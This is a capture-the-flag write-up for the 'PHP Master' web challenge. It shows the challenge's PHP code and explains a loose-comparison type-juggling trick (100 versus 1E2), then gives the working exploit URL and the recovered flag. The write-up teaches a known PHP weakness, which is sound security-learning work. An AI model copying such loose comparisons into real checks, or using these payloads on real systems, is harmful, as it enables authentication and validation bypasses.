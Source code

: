 # PHP Master

**Category**: Web

Submitted by: katipuzer0

### Overview

This web challenge requires us to specify the correct parameters to get the flag. 

### Given
We are given the following PHP code:

```php
<?php

include('flag.php');

$p1 = $_GET['param1'];
$p2 = $_GET['param2'];

if(!isset($p1) || !isset($p2)) {
    highlight_file(__FILE__);
    die();
}

if(strpos($p1, 'e') === false && strpos($p2, 'e') === false  && strlen($p1) === strlen($p2) && $p1 !== $p2 && $p1[0] != '0' && $p1 == $p2) {
    die($flag);
}

?>

```

### Approach
To get the flag, we need to review some of the interesting [properties](https://medium.com/@Asm0d3us/part-1-php-tricks-in-web-ctf-challenges-e1981475b3e4) of PHP's comparison operators then choose the correct values for `param1` and `param2`. We also note the the second parameter of the `strpos()` function is case-sensitive.

### Exploit
```
http://challs.xmas.htsp.ro:3000/?param1=100&param2=1E2
```
The values of `param1` and `param2` satisfy the conditions: `100 = 1E2 = 1x10^2`

### Flag
`X-MAS{s0_php_m4ny_skillz-69acb43810ed4c42}`
